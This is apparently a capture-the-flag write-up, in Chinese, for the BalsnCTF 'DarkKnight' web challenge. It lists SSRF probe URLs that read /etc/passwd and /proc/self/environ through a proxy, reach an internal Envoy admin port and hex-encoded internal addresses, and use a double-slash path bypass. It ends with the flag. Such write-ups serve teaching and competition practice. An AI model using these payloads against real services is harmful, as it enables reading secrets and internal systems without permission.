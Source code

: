 # DarkKnight
## 題目

![]()

## 解題
進來看到這個
![]()

試著 http://proxy.balsnctf.com/query?site=http://www.google.com
![]()

試著 ssrf  http://proxy.balsnctf.com/query?site=file:///etc/passwd
![]()

試著 http://proxy.balsnctf.com/query?site=file:///proc/self/environ
![]()

試著 http://proxy.balsnctf.com/query?site=file:///proc/net/tcp
![]()

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000
![]()

試著 http://proxy.balsnctf.com/query?site=http://127.0.0.1:15000/stats
![]()

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307
![]()

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307/flag

炸
![]()

試著 http://proxy.balsnctf.com/query?site=http://0X0A2C03F0:39307//flag

過
![]()

## flag
BALSN{default_istio_service_mesh_envoy_configurations}